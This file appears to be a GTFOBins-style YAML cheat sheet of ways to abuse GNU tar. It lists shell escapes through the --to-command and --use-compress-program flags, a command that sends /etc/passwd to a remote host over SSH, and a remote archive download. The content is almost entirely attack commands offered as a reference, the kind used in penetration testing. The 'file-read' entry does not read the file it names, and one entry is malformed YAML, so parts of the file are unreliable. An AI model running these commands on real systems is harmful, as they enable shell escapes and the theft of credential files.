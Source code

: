 ```yaml
---
functions:
  shell:
    - description: The --to-command is normally used to pipe extracted files to a command. This can be used to run arbitrary commands on a host. The file must be a valid archive file.
      code: |
        tar xf /tmp/valid.tar --to-command='/bin/sh -c "sh <&2 1>&2"'
    - description: Similar to the above, but at a previous stage in the extraction. A valid archive is not required. This functionality can be abused in various ways for file-read and file-write (see below).
      code: |
        tar xf /dev/null --use-compress-program='/bin/sh -c "sh <&2 1>&2"'
  file-upload:
    - description: This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        tar cvf remote_user@remote_host.com:/tmp/remote_file.tar /etc/passwd --rsh-command=/bin/ssh
  file-download:
    - description: GNU tar has remote archive capabilities, which can be used to download and extract remote archives. The remote machine should have the `rmt` utility installed and configured.
      code: | tar xvf remote_user@remote_host.com:/tmp/remote_file --rsh-command=/bin/ssh
  file-read:
    - description: The --use-compress-program flag can be abused to read files.
      code: |
        tar xf /etc/passwd --use-compress-program='/bin/sh -c "echo hello > /tmp/file"'
---
```

